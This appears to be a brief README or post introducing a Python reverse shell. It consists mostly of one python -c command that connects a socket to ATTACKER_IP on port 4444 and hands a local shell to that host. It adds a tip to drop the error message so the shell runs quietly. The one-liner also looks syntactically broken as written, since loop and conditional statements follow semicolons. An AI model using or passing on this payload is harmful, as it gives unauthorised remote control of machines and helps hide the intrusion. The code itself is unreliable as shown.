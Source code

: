 Just working on creating some python reverse shells.

One line of the "PythonReverseShell.py"

```shell
python -c "import socket,subprocess,os;shells=['/bin/bash','/bin/sh','/bin/ash'];shell=None;for s in shells:if os.path.exists(s):shell=s;break;attacker_address=('ATTACKER_IP',4444);sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM);sock.connect(attacker_address);p=subprocess.Popen([shell],stdin=sock,stdout=sock,stderr=sock) if shell else print('Error: No available shell found')"
```

This one is verbose and removing the else print will quiet it down.